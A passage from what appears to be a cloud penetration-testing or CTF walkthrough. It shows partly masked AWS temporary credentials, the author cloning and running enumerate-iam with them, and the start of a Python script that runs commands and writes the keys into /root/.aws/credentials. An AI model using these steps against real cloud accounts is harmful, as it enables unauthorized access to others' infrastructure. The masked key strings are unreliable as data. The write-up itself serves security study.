```bash
        "SecretKey": "oOerEL*****ATBYkFC1IILP9aJN5k",
        "SessionToken": "IQoJb3JpZ2luX2VjENf//////////wEaCXVzLWVhc3QtMSJHMEUCIQCRAYtyg6oD/*****",
        "Expiration": "2024-09-05T18:43:37+03:00"
    }
}
```

So now we have a temporary credential. But we need to know what we can use these credentials for? As explained in the mentioned blog post, we can use the **enumerate-iam** tool for that. Let’s install it.

```bash
──(root㉿kali)-[/opt]
└─$ git clone https://github.com/andresriancho/enumerate-iam.git

┌──(root㉿kali)-[/opt/enumerate-iam]
└─$ pip3 install -r requirements.txt
┌──(root㉿kali)-[/opt/enumerate-iam]
└─$ python3 enumerate-iam.py --access-key ASIARL*****Q57WJBZK --secret-key zMCS+52lj8PfUUTwk*****p2osMt1R 
```

Unfortunately the command was stuck after running, and my thinking is that the session token is being expired, so I had to create a script to automate this process.

```python
import subprocess
import json
import os
import time

def run_aws_command(command):
    result = subprocess.run(command, capture_output=True, text=True)
    if result.returncode == 0:
        return json.loads(result.stdout)
    else:
        print(f"Error running command: {command}")
        print(result.stderr)
        return None

def run_and_stream_output(command):
    log_file = "output.log"
    
    # Run the command and redirect output to a file
    os.system(f"{command} > {log_file} 2>&1 &")

    # Monitor the log file and print new content as it is added
    with open(log_file, "r") as f:
        while True:
            line = f.readline()
            if not line:
                # No more content, wait for a bit before checking again
                time.sleep(50)
                continue
            print(line, end='')
            # Break the loop when the process finishes
            if f.tell() == os.path.getsize(log_file):
                break

def update_aws_credentials(access_key, secret_key, session_token):
    aws_credentials_path = os.path.expanduser("/root/.aws/credentials")
    
    with open(aws_credentials_path, "a") as f:
        f.write(f"\n[iam]\n")
        f.write(f"aws_access_key_id = {access_key}\n")
```